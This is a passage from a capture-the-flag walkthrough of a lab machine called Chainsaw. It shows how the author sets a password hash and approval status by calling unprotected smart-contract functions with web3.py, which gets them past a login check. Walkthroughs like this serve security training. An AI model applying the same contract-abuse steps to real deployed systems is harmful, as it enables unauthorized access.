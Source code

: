 
The password field looks like an MD5 hash. I’ll try hashing my password:

    
    
    root@kali# echo -n 0xdf | md5sum
    465e929fc1e0853025faad58fc8cb47d  -
    

And submitting that:

    
    
    >>> contract.functions.setPassword('465e929fc1e0853025faad58fc8cb47d').transact()
    HexBytes('0x3a00d64de726e98832c988246ffa9725e8048ea855d2ace33be372808a784caf')
    

Now when I try to log in, I get a different error:

    
    
    bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 
    
          _           _
         | |         (_)
      ___| |__   __ _ _ _ __  ___  __ ___      __
     / __| '_ \ / _` | | '_ \/ __|/ _` \ \ /\ / /
    | (__| | | | (_| | | | | \__ \ (_| |\ V  V /
     \___|_| |_|\__,_|_|_| |_|___/\__,_| \_/\_/
                                                club
    
    - Total supply: 1000
    - 1 CHC = 51.08 EUR
    - Market cap: 51080 (€)
    
    [*] Please sign up first and then log in!
    [*] Entry based on merit.
    
    Username: 0xdf
    Password: 
    [*] User is not approved!
    

There are `getApprove` and `setApprove` functions in the `.sol` file. I’ll try
`getApprove` (using `.call()` since it’s a get function):

    
    
    >>> contract.functions.getApprove().call()
    False
    

Now `setApprove`:

    
    
    >>> contract.functions.setApprove(True).transact()
    HexBytes('0x6072819f412e876bb445131cd60223619b084e28672d0a75dcadf419f94e1dad')
    

And I’m approved:

    
    
    >>> contract.functions.getApprove().call()
    True
    